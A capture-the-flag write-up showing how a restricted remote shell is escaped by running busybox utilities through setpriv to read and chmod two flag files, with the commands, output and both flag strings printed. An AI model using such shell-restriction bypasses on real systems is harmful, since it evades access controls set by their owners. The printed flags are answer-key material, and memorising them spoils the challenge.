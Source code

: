 # Work Computer

![img](./assets/work-computer-task.png)

#### **Given:** remote address readme.ctfcompetition.com 1337

Connecting to the remote. According to the problem description we should see a shell.
```
netcat readme.ctfcompetition.com 1337
> ls

```
Okay, let's try to play a bit with this shell:
```
> ls
ORME.flag
README.flag
> cat README.flag
error: No such file or directory
> cat    
error: No such file or directory
> less
error: No such file or directory
> head
error: No such file or directory
```
We can see two `.flag`-files, but it seems that standard file-reading tools are not available.

Let's see what's available:
```
> pwd
/challenge
> cd ..
> pwd
/
> ls /bin /usr/bin /sbin /usr/sbin
```
There's a bunch of commands available on this system, but I cannot recognize any of them as file-reading.

What's interesting though, there's a busybox present! Let's try to run it:
```
> busybox
busybox can not be called for alien reasons.
```
![img](./assets/sure-jan.png)

Trying out some privileges-related utils:
```
> su
error: No such file or directory
> sudo
error: No such file or directory
> setpriv
BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
[...]
```
`setpriv` is available! (And also linked to busybox).
```
> setpriv busybox cat README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
> setpriv busybox cat ORME.flag
cat: can't open 'ORME.flag': Permission denied
> ls -l
total 8
----------    1 1338     1338            33 Apr 11 19:12 ORME.flag
-r--------    1 1338     1338            28 Apr 11 19:12 README.flag
> setpriv busybox chmod +r ORME.flag
> setpriv busybox cat ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

**Flag1: CTF{4ll_D474_5h4ll_B3_Fr33}**

**Flag2: CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**

Resources used:
[List of BusyBox commands](https://boxmatrix.info/wiki/BusyBox-Commands)
